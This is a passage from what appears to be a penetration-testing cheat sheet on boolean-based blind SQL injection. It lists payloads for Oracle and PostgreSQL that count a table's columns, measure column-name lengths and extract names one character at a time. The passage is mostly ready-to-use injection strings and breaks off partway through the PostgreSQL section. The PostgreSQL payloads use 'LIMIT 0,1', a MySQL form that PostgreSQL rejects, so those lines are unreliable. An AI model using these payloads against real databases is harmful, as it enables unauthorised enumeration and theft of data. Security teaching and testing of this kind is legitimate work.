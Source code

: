 {% tab title="OracleSQL" %}
First, retrieve the number of columns:

```sql
1' AND (SELECT COUNT(column_name) FROM all_tab_columns WHERE owner = USER AND table_name='TABLE_NAME_HERE')=2--  #True -> 2 columns
```

Second, retrieve length of each column

```sql
-- If True, the first column's name lenght is 3
1' AND (SELECT LENGTH(column_name) FROM all_tab_columns WHERE owner = USER AND table_name='TABLE_NAME_HERE' OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)=3-- 

-- If True, the second column's name lenght is 8
1' AND (SELECT LENGTH(column_name) FROM all_tab_columns WHERE owner = USER AND table_name='TABLE_NAME_HERE' OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY)=8-- 
```

Third, retrieve name of each column

```sql
-- If True, the first char of the first column is a
1'AND (SELECT ASCII(SUBSTR(column_name, 1, 1)) FROM all_tab_columns WHERE owner = USER AND table_name='TABLE_NAME_HERE' OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)=97--

-- If True, the second char of the first column is b
1'AND (SELECT ASCII(SUBSTR(column_name, 2, 1)) FROM all_tab_columns WHERE owner = USER AND table_name='TABLE_NAME_HERE' OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)=98--

-- If True, the first char of the second column is p
1'AND (SELECT ASCII(SUBSTR(column_name, 1, 1)) FROM all_tab_columns WHERE owner = USER AND table_name='TABLE_NAME_HERE' OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY)=112--
```
{% endtab %}

{% tab title="PostgreSQL" %}
First, retrieve the number of columns:

```sql
1' AND (SELECT COUNT(column_name) FROM information_schema.columns WHERE table_schema=current_database() AND table_name='TABLE_NAME_HERE')=2--  #True -> 2 columns
```

Second, retrieve length of each column

```sql
-- If True, the first column's name lenght is 3
1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=current_database() AND table_name='TABLE_NAME_HERE' LIMIT 0,1)=3-- 

-- If True, the second column's name lenght is 8
1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=current_database() AND table_name='TABLE_NAME_HERE' LIMIT 1,1)=8-- 
```

Third, retrieve name of each column
